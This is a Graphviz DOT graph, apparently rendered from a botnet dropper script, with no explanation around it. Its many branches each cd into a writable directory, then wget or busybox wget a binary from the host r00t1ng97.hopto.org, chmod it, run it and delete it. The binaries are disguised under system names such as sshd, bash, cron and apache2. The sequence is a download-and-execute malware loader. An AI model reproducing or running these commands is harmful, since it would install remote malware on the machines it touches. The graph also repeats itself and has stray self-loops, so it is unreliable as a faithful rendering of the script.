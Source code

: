 digraph {
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 10 [label="||,"];
10 [label="wget http://r00t1ng97.hopto.org/ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x ntpd "];
12 -> 248 [label=";,"];
248 [label="./ntpd "];
248 -> 16 [label=";,"];
16 [label="rm -rf ntpd "];
16 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 28 [label="||,"];
28 [label="wget http://r00t1ng97.hopto.org/sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sshd "];
30 -> 266 [label=";,"];
266 [label="./sshd "];
266 -> 34 [label=";,"];
34 [label="rm -rf sshd "];
34 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 46 [label="||,"];
46 [label="wget http://r00t1ng97.hopto.org/openssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x openssh "];
48 -> 284 [label=";,"];
284 [label="./openssh "];
284 -> 52 [label=";,"];
52 [label="rm -rf openssh "];
52 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 64 [label="||,"];
64 [label="wget http://r00t1ng97.hopto.org/bash "];
64 -> 66 [label=";,"];
66 [label="chmod +x bash "];
66 -> 302 [label=";,"];
302 [label="./bash "];
302 -> 70 [label=";,"];
70 [label="rm -rf bash "];
70 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 82 [label="||,"];
82 [label="wget http://r00t1ng97.hopto.org/tftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x tftp "];
84 -> 320 [label=";,"];
320 [label="./tftp "];
320 -> 88 [label=";,"];
88 [label="rm -rf tftp "];
88 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 100 [label="||,"];
100 [label="wget http://r00t1ng97.hopto.org/wget "];
100 -> 102 [label=";,"];
102 [label="chmod +x wget "];
102 -> 338 [label=";,"];
338 [label="./wget "];
338 -> 106 [label=";,"];
106 [label="rm -rf wget "];
106 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 118 [label="||,"];
118 [label="wget http://r00t1ng97.hopto.org/cron "];
118 -> 120 [label=";,"];
120 [label="chmod +x cron "];
120 -> 356 [label=";,"];
356 [label="./cron "];
356 -> 124 [label=";,"];
124 [label="rm -rf cron "];
124 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 136 [label="||,"];
136 [label="wget http://r00t1ng97.hopto.org/ftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x ftp "];
138 -> 374 [label=";,"];
374 [label="./ftp "];
374 -> 142 [label=";,"];
142 [label="rm -rf ftp "];
142 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 154 [label="||,"];
154 [label="wget http://r00t1ng97.hopto.org/pftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x pftp "];
156 -> 392 [label=";,"];
392 [label="./pftp "];
392 -> 160 [label=";,"];
160 [label="rm -rf pftp "];
160 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 172 [label="||,"];
172 [label="wget http://r00t1ng97.hopto.org/sh "];
172 -> 174 [label=";,"];
174 [label="chmod +x sh "];
174 -> 410 [label=";,"];
410 [label="./sh "];
410 -> 178 [label=";,"];
178 [label="rm -rf sh "];
178 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 190 [label="||,"];
190 [label="wget http://r00t1ng97.hopto.org/[cpu] "];
190 -> 192 [label=";,"];
192 [label="chmod +x [cpu] "];
192 -> 428 [label=";,"];
428 [label="./[cpu] "];
428 -> 196 [label=";,"];
196 [label="rm -rf [cpu] "];
196 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 208 [label="||,"];
208 [label="wget http://r00t1ng97.hopto.org/apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache2 "];
210 -> 446 [label=";,"];
446 [label="./apache2 "];
446 -> 214 [label=";,"];
214 [label="rm -rf apache2 "];
214 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 226 [label="||,"];
226 [label="wget http://r00t1ng97.hopto.org/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 464 [label=";,"];
464 [label="./telnetd "];
464 -> 232 [label=";,"];
232 [label="rm -rf telnetd "];
232 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 244 [label="||,"];
244 [label="busybox wget http://r00t1ng97.hopto.org/ntpd "];
244 -> 246 [label=";,"];
246 [label="busybox chmod +x ntpd "];
246 -> 248 [label=";,"];
248 [label="./ntpd "];
248 -> 250 [label=";,"];
250 [label="busybox rm -rf ntpd "];
250 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 262 [label="||,"];
262 [label="busybox wget http://r00t1ng97.hopto.org/sshd "];
262 -> 264 [label=";,"];
264 [label="busyboxchmod +x sshd "];
264 -> 266 [label=";,"];
266 [label="./sshd "];
266 -> 268 [label=";,"];
268 [label="busybox rm -rf sshd "];
268 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 280 [label="||,"];
280 [label="busybox wget http://r00t1ng97.hopto.org/openssh "];
280 -> 282 [label=";,"];
282 [label="busybox chmod +x openssh "];
282 -> 284 [label=";,"];
284 [label="./openssh "];
284 -> 286 [label=";,"];
286 [label="busybox rm -rf openssh "];
286 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 298 [label="||,"];
298 [label="busybox wget http://r00t1ng97.hopto.org/bash "];
298 -> 300 [label=";,"];
300 [label="busybox chmod +x bash "];
300 -> 302 [label=";,"];
302 [label="./bash "];
302 -> 304 [label=";,"];
304 [label="busybox rm -rf bash "];
304 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 316 [label="||,"];
316 [label="busybox wget http://r00t1ng97.hopto.org/tftp "];
316 -> 318 [label=";,"];
318 [label="busybox chmod +x tftp "];
318 -> 320 [label=";,"];
320 [label="./tftp "];
320 -> 322 [label=";,"];
322 [label="busybox rm -rf tftp "];
322 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 334 [label="||,"];
334 [label="busybox wget http://r00t1ng97.hopto.org/wget "];
334 -> 336 [label=";,"];
336 [label="busybox chmod +x wget "];
336 -> 338 [label=";,"];
338 [label="./wget "];
338 -> 340 [label=";,"];
340 [label="busybox rm -rf wget "];
340 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 352 [label="||,"];
352 [label="busybox wget http://r00t1ng97.hopto.org/cron "];
352 -> 354 [label=";,"];
354 [label="busybox chmod +x cron "];
354 -> 356 [label=";,"];
356 [label="./cron "];
356 -> 358 [label=";,"];
358 [label="busybox rm -rf cron "];
358 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 370 [label="||,"];
370 [label="busybox wget http://r00t1ng97.hopto.org/ftp "];
370 -> 372 [label=";,"];
372 [label="busybox chmod +x ftp "];
372 -> 374 [label=";,"];
374 [label="./ftp "];
374 -> 376 [label=";,"];
376 [label="busybox rm -rf ftp "];
376 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 388 [label="||,"];
388 [label="busybox wget http://r00t1ng97.hopto.org/pftp "];
388 -> 390 [label=";,"];
390 [label="busybox chmod +x pftp "];
390 -> 392 [label=";,"];
392 [label="./pftp "];
392 -> 394 [label=";,"];
394 [label="busybox rm -rf pftp "];
394 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 406 [label="||,"];
406 [label="busybox wget http://r00t1ng97.hopto.org/sh "];
406 -> 408 [label=";,"];
408 [label="busybox chmod +x sh "];
408 -> 410 [label=";,"];
410 [label="./sh "];
410 -> 412 [label=";,"];
412 [label="busybox rm -rf sh "];
412 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 424 [label="||,"];
424 [label="busybox wget http://r00t1ng97.hopto.org/[cpu] "];
424 -> 426 [label=";,"];
426 [label="busybox chmod +x [cpu] "];
426 -> 428 [label=";,"];
428 [label="./[cpu] "];
428 -> 430 [label=";,"];
430 [label="busybox rm -rf [cpu] "];
430 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 442 [label="||,"];
442 [label="busybox wget http://r00t1ng97.hopto.org/apache2 "];
442 -> 444 [label=";,"];
444 [label="busybox chmod +x apache2 "];
444 -> 446 [label=";,"];
446 [label="./apache2 "];
446 -> 448 [label=";,"];
448 [label="busybox rm -rf apache2 "];
448 -> 450 [label=";,"];
450 [label="cd /tmp "];
450 -> 450
452 [label="cd /var/run "];
452 -> 454 [label="||,"];
454 [label="cd /mnt "];
454 -> 456 [label="||,"];
456 [label="cd /root "];
456 -> 458 [label="||,"];
458 [label="cd / "];
458 -> 460 [label="||,"];
460 [label="busybox wget http://r00t1ng97.hopto.org/telnetd "];
460 -> 462 [label=";,"];
462 [label="busybox chmod +x telnetd "];
462 -> 464 [label=";,"];
464 [label="./telnetd "];
464 -> 465 [label=";,"];
}

